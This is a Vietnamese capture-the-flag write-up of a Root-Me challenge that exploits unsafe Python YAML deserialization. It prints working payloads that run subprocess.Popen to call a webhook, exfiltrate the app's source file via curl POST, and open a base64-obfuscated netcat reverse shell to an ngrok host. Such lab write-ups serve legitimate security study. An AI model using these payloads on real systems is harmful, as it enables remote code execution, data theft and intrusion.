

Challenge: http://challenge01.root-me.org:59071/

Sau khi truy cập thì nó hiện: \
\
Với URL: http://challenge01.root-me.org:59071/eWFtbDogV2UgYXJlIGN1cnJlbnRseSBpbml0aWFsaXppbmcgb3VyIG5ldyBzaXRlICEg

Decode URL ra: 


Tìm hiểu về Yaml: yaml thường là file cấu hình, đối với python yaml còn có thể `Thư viện python Yaml cũng có khả năng serialize các đối tượng python chứ không chỉ dữ liệu thô`


Với payload: 
```
yaml: !!python/object/apply:subprocess.Popen
- !!python/tuple
  - curl
  - https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc
```

Ta bắt được gói tin bên webhook: 


Tiếp tục khai thác: 


Lấy source code: 
```
!!python/object/apply:subprocess.Popen
- - sh
  - -c
  - curl -X POST -F file=@ch71.py https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc
```


Sau 1 lúc không tìm được flag:


Tìm cách tạo reverse shell:
```
yaml: !!python/object/apply:subprocess.Popen
- !!python/tuple
 - python
 - -c
 - "__import__('os').system(str(__import__('base64').b64decode('cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAwLnRjcC5hcC5uZ3Jvay5pbyAxNDI1NT4vdG1wL2Y=').decode()))"
```

